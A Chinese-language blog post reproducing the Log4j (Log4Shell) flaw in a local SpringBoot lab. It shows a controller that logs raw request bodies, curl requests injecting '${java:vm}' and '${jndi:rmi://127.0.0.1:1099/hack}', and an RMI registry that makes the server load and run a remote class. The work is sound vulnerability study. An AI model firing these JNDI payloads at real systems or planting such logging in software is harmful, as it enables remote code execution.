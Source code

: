 ```yaml
---
title: 'log4j bug重现'
#permalink: /posts/2022/08/hello-jwt/
date: 2022-05-07
excerpt_separator: "<!--more-->"
categories:
  - Blog
tags:
  - java
toc: true
toc_label: "目录"
toc_icon: "cog"
---
```


> 最近出现的log4j漏洞，导致RNI远程调用问题，抱着好奇的心态来重现下。

<!--more-->

## 环境搭建及测试代码

本文采用的是SpringBoot 2.2.6版本加一个RMI服务重现BUG，方式是通过在微服务工程里打log日志，以触发远程服务调用漏洞。

省略搭建微服务的过程，我使用的是社区版idea 2020.3.4，大家同样使用社区版的话，建议安装Spring assistant插件，可以很方便的搭建Springboot工程。

因为目前已经有了新版本的修复，这里建议大家使用Springboot`2.2.6.RELEASE`版本，其中带的log4j版本是`2.12`，这个版本是存在漏洞的哈。

### 项目依赖

```xml
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
    <version>2.2.6.RELEASE</version>
    <exclusions>
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
    <version>2.2.6.RELEASE</version>
</dependency>
```

### log记录

之后可以创建你的测试接口了。一个简单的测试用例，用log来记录入参，并返回参数。

```java
private static final Logger logger = LogManager.getLogger(TestLog4JController.class);
@PostMapping(value = "hack")
public Object testLog4J(@RequestBody String params) {
    logger.info("params: {}",params);
    return params;
}
```

## 打印JVM参数

先来打印一下jvm参数到控制台。通过`${java:vm}`该参数在log中打印，log4j会将我们的jvm参数打印出来，这个问题不会导致严重的问题，但是可以让我们见识了log4j并不是简单的帮我们记录日志。

```http
@request
curl --location --request POST 'http://127.0.0.1:8080/hack' \
--header 'Content-Type: application/json' \
--data-raw '{
    "command":"${java:vm}"
}'
```

### 日志输出

```
2021-12-20 12:02:27.549  INFO 71326 --- [nio-8080-exec-1] c.a.l.c.TestLog4JController              : params: {
    "command":"Java HotSpot(TM) 64-Bit Server VM (build 25.231-b11, mixed mode)"
}
```

## 远程服务调用

接下来我们先来构建一个远程服务，之后通过打印log日志来发起远程调用。

### RMI服务创建

```java
public static void main(String[] args) {
    try {
        LocateRegistry.createRegistry(1099);
        Registry registry = LocateRegistry.getRegistry();
        Reference reference = new Reference("com.away.log4j.impl.Execute",
                "com.away.log4j.impl.Execute", null);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        System.out.println("service started");
        registry.bind("hack", referenceWrapper);
    } catch (RemoteException | NamingException | AlreadyBoundException e) {
        e.printStackTrace();
    }
}
```

```java
public class Execute {
    public Execute() {
        System.out.println("Execute");
    }

    static {
        // 代码执行到这里，表示RMI调用成功
        System.out.println("freedom, can do anything!");
    }
}
```

上面的程序是构建远程服务，当你打印log日志的时候，可以通过`JNDI`发起一个远程调用，那么一旦服务调用发起，我们的程序就很可能遭受意外的攻击。

调用示例：

```http
@request
curl --location --request POST 'http://127.0.0.1:8080/hack' \
--header 'Content-Type: application/json' \
--data-raw '{
    "command":"${jndi:rmi://127.0.0.1:1099/hack}"
}'
```

结果输出：

![](https://raw.githubusercontent.com/EugeneLau0/picture/master/20211220120731.png)

以上是一个简单的调用示例，通过RMI调用到目标主机，并实例化一段代码。可想而知，我们平时只是打印一个普通日志，却引来这么严重的问题，真的是不可思议。